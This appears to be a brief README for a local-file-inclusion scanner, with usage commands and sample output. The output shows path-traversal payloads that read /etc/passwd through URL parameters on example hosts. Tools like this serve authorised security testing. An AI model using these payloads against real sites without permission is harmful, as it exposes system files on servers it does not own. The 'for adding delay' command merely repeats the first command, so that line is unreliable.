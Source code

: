 # LFI_TOOL

pip install requests

cat lifurl.txt | python lfi_check.py -p payloads.txt


for adding delay

cat lifurl.txt | python lfi_check.py -p payloads.txt 

OUTPUT
=====
Checking URL: http://example.com/vulnerable_script.php?file=
Testing: http://example.com/vulnerable_script.php?file=../../../../../../../../etc/passwd
Testing: http://example.com/vulnerable_script.php?file=../../etc/passwd
Testing: http://example.com/vulnerable_script.php?file=/etc/passwd
LFI Vulnerability found with payload: ../../etc/passwd

Checking URL: http://testsite.com/include.php?path=
Testing: http://testsite.com/include.php?path=../../../../../../../../etc/passwd
Testing: http://testsite.com/include.php?path=../../etc/passwd
Testing: http://testsite.com/include.php?path=/etc/passwd
Received status code: 404
Received status code: 404
Received status code: 404
LFI vulnerability not found
